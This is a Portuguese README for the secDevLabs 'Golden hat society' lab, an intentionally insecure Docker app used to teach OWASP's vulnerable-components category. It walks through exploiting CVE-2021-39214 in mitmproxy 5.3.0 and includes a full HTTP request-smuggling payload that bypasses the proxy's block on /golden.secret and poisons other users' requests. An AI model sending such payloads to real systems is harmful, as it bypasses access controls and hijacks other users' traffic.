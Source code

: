 <!-- This is a README Template for secDevLabs apps -->
# Golden hat society

[Access content in English](README.md)

<p align="center">
    <img src="images/img1.png"/>
</p>

Golden hat society é uma aplicação feita com python que possui um proxy reverso, mitmproxy, bloqueando a rota `/golden.secret` que deve ser acessada apenas por quem está dentro da VPN docker.

## Index

- [Definição](#O-que-significa-usar-componentes-desatualizados-e-vulneráveis)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que significa usar componentes desatualizados e vulneráveis?

Essa vulnerabilidade foi a 9º no top dez OWASP de 2017 e chegou ao 6º em 2021. Normalmente, softwares que contêm conexões de entrada são executados por usuários exclusivos com permissões restritas. O motivo é que, se alguém explorar o aplicativo, esse invasor não poderá fazer muito por causa dessas permissões.

À medida que os softwares ficam cada vez maiores, devemos usar algumas bibliotecas em algum momento, isso significa que essas bibliotecas também devem ser seguras. O ponto principal desta vulnerabilidade é usar uma lib, framework e outros módulos vulneráveis ​​a uma vulnerabilidade já conhecida (conhecida por avisos).

O principal objetivo deste aplicativo é discutir como os **componentes desatualizados e vulneráveis** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do secDevLabs sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a6/golden-hat
```

```sh
make install
```

Depois é só visitar [localhost:10006][app] ! :ghost:

## Conheça o app  ⚜️

Para entender corretamente como esse aplicativo funciona, você pode:

- Visitar sua página inicial!

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### O uso da versão mitmproxy vulnerável permite ataques de dessincronização HTTP 

Primeira acesso ao aplicativo:

<p align="center">
    <img src="images/img1.png"/>
</p>

Uma vez que tentamos alcançar o `/golden.secret` podemos ver cabeçalhos interessantes:

<p align="center">
    <img src="images/attack1.png"/>
</p>

Como podemos ver este `Via: mitmproxy/5.3.0` nos ajuda com o reconhecimento. Agora que sabemos o que está sendo executado no servidor, podemos procurar CVEs nesta versão do mitmproxy. Assim que encontrarmos o CVE-2021-39214, podemos fazer um exploit para essa vulnerabilidade.

Vamos dar uma olhada no código fonte do mitmproxy, [TAG 5.3.0](https://github.com/mitmproxy/mitmproxy/tree/v5.3.0) no arquivo [/mitmproxy/net/http/http1/read.py :L209](https://github.com/mitmproxy/mitmproxy/blob/a738b335a36b58f2b30741d76d9fe41866309299/mitmproxy/net/http/http1/read.py#L209):

```python
if "chunked" in headers.get("transfer-encoding", "").lower():
    return None
```

Como podemos ver, este pedaço de código é responsável pela vulnerabilidade. Agora que sabemos que o proxy processa qualquer solicitação como chunked que contenha a palavra-chave chunked, podemos criar uma solicitação que o proxy entenderá como `Transfer-Encoding` chunked e o backend do gunicorn entenderá como `Content-Length`. 

Este pedido pode ser enviado em repetidor burp (você deve desabilitar a opção `update content-length`), telnet, netcat ou qualquer tipo de conexão que permita enviar textos através de sockets.

```
GET /w HTTP/1.1
Host: 127.0.0.1:10006
Transfer-Encoding: chunkedasd
Content-Length: 4

35
GET /golden.secret HTTP/1.1
Host: 127.0.0.1:8000


0

GET / HTTP/1.1
Host: 127.0.0.1:10006


```

A primeira solicitação força um erro 404. O frontend(proxy) irá analisar a requisição como uma requisição normal com corpo até o 0. O backend irá processar a primeira requisição até 35 e então irá analisar a requisição para `/golden.secret` envenenando o próximo socket. Em seguida, apenas colocamos uma nova solicitação de alinhamento no final para envenenar um soquete que controlamos.

Depois de executar esta carga como uma solicitação, podemos ver a página secreta: 104

<p align="center">
    <img src="images/attack2.png"/>
</p>

Essa vulnerabilidade é interessante porque você pode envenenar as solicitações de outros clientes e convencê-los a fazer o que quiser!

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Ignorar regras de proxy.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Golden+Hat+Society%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[secDevLabs]: https://github.com/globocom/secDevLabs
[app]: http://localhost:10006
